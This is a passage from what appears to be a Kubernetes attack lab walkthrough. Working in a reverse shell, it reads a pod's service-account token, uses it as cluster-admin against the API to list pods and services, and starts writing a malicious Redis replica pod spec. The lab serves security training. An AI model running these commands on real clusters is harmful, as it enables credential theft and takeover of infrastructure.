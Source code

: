> **NOTE**:  Do NOT use the `Command/Ctrl+C` key. You will lose access to the shell and will have to re-do `Step 6`

---

#### Step 8:

* In the reverse shell, navigate within the pod to fetch `Service Account` token.

> ###### Switch to the lower panel with `ctrl` + `b` and then `lower arrow key`
```commandline
cd /run/secrets/kubernetes.io/serviceaccount
```
```commandline
export TOKEN=$(cat token)
```

### *We are now going to masquerade with the cluster-admin's token.*

* Start interacting with K8s API. To get a JSON dump of all pods running, run

```commandline
curl -s https://10.96.0.1/api/v1/namespaces/default/pods -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure
```

* Fetch the `clusterIP` of `redis-service` and note the value. 

```commandline
curl -s https://10.96.0.1/api/v1/namespaces/default/services -XGET -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --insecure | grep -E '("redis-service"|clusterIP)'
```

### *The response will be similar to the one below. Please note that the IP may differ*

```
        "clusterIP": "10.96.0.1",
        "clusterIP": "10.98.196.52",
        "name": "redis-service",
        "clusterIP": "10.97.43.203", # This is the MASTERHOST IP of Redis
```

* On your machine, copy the following JSON value and make the following changes:
    
    * Change `Redis-Service-ClusterIP-HERE` with the value of redis-service `clusterIP`.
    
    * Change `SERVERIP-HERE` with that of Server IP that can be fetched by running `serverip`

```commandline
cat > mal-redis.json <<EOF
{
    "kind": "Pod",
    "apiVersion": "v1",
    "metadata": {
        "name": "mal-redis"
    },
    "spec": {
        "containers": [{
            "name": "mal-redis",
            "image": "we45/malicious-redis-slave",
            "env": [
              {
                "name": "MASTERHOST",
                "value": "Redis-Service-ClusterIP-HERE"
              },
              {
                "name": "MASTERPORT",
                "value": "6379"
```